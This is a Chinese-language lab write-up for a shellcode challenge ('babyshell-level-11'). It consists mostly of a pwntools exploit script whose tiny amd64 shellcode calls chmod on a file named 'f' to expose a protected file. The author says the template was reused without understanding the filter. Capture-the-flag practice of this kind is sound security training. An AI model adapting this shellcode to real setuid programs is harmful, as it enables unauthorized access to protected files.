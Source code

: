 # 挑战简介
在上一题的基础上
这项挑战即将关闭 stdin，这意味着传递第二阶段 shellcode 将更加困难。您需要
想出一个替代解决方案（例如在内存中解包 shellcode）来绕过复杂的过滤器。

# 思路
好吧，没搞懂冒泡排序，禁用了stdin也和前几题的模板无关，依旧套模板  

```
#!/usr/bin/python
from pwn import *
import struct
import os
cache_dir = '/tmp/.pwntools-cache'
if not os.path.exists(cache_dir):
    os.makedirs(cache_dir)

context(os='linux', arch='amd64', log_level='debug', cache_dir=cache_dir)

p = process('/challenge/babyshell-level-11')

p.recvuntil('Reading 0x1000 bytes from stdin.\n')

shellcode = asm('''
    push 0x66
    mov rdi, rsp
    push 4

_stage:
    pop rsi
    jmp short skip
skip:
    push 90
    pop rax
    syscall
    ret
    ret
    ret
''')


# 为安全起见，打印完整的shellcode十六进制表示
print("Shellcode十六进制:", shellcode.hex())
print("Shellcode长度:", len(shellcode), "字节")

p.send(shellcode)

# 与shell交互
p.interactive()
p.recvall()
```

